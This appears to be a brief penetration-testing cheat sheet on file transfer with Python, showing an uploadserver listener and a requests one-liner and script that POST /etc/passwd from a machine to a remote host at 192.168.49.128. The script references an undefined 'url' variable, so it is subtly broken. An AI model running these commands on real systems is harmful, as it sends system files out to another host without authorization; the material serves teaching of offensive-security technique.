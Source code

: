 # Python Upload

## Python uploadserver Module

```shell
clue@machine[/]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## Python requests Module

The **Python3 requests module** allows you to send HTTP requests (GET, POST, PUT, etc.) using Python.

**requests module one-liner:**

```shell
clue@machine[/]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

**requests module script:**

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```
